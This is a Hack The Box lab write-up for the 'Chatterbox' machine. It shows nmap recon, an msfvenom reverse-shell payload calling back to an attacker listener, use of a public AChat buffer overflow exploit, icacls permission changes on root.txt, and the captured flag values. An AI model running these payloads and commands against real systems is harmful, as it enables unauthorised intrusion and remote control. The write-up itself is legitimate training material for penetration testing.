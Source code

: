 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Chatterbox
tags: ["shellcode"]
---
```

**Start 19:32 24-08-2024**

---
```
10.10.10.74
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.74                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 18:33 IST
Nmap scan report for 10.10.10.74
Host is up (0.088s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -vvvv -p- 10.10.10.74
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 18:33 IST
Nmap scan report for 10.10.10.74
Host is up, received conn-refused (0.086s latency).
Scanned at 2024-08-24 18:33:31 IST for 528s
Not shown: 65030 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         syn-ack AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        syn-ack AChat chat system
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-24T18:42:55-04:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38735/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57348/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 64306/udp): CLEAN (Timeout)
|   Check 4 (port 41545/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h20m43s, deviation: 2h18m35s, median: 5h00m42s
| smb2-time: 
|   date: 2024-08-24T22:42:53
|_  start_date: 2024-08-24T22:32:43
```

I notice a port I haven't seen right away: `9256/TCP - AChat`. Apparently this is some kind of chat service.


## 9256/TCP - AChat

After some digging around I found that there's a `buffer overflow` vulnerability for `AChat 0.150`:

![](../../../assets/0ae3c40471fcacbad4aeb0e8b331695a.png)

We can manually set up this exploit.

## Foothold
Using the above script I found I modified it to satisfy my needs:
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

I then grabbed the outputted `shellcode` and replaced the old shellcode with the new one in the `exploit`. I also modified the `server_address` variable and got to running:

![](../../../assets/84650bd09c7e7a00e490c6e4c080ee8b.png)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...


┌──(kali㉿kali)-[~/Downloads]
└─$ python2 36025.py 
---->{P00F}!

# For some reason it just did not work with python3 so I had to use 2 instead.
```

After many tries it finally worked:

![](../../../assets/4d47a012bf13fa61e3c74ac997de003b.png)

### user.txt
As always we head to `\alfred\Desktop` where we find the flag:

```powershell
C:\Users\Alfred\Desktop>type user.txt
type user.txt
178d1a3a68c352aea0188d8e7ff5f559
```


## Privilege Escalation
### OS Info
I started of by running `systeminfo` and found that there were over 100 hotfixes for this version, which means that most vulnerabilities will probably have been patched. Nonetheless:

```powershell
C:\Users\Alfred\Desktop>systeminfo
systeminfo

Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00371-222-9819843-86663
Original Install Date:     12/10/2017, 9:18:19 AM
System Boot Time:          8/24/2024, 6:32:35 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,549 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,626 MB
Virtual Memory: In Use:    469 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\CHATTERBOX
```

We see that we're working with a `Windows 7 Professional` system, as we already knew from our `nmap` scan. 

### icacls
I quickly found out that I did not actually have to get `system privileges` as I already have access to the directory, I just don't have `read access`:

![](../../../assets/db98949e277da72074361a9e024d2442.png)

This means I can just change that by using the `icacls` command:

```powershell
icacls root.txt /grant alfred:F 
```

![](../../../assets/50575dc8d797796ca729a45cc9046ad9.png)

This is another way of getting [escalated read access](Windows%20Privilege%20Escalation.md#File%20&Directory%20Permissions#Misconfigured%20File%20Permissions) on certain files:

### root.txt

```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9fb9f3d65b188768d7346196f620e9c8
```


![](../../../assets/68fe0c2a704e8b4f14a4cc8d1ae75588.png)

---

**Finished 22:26 24-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
 
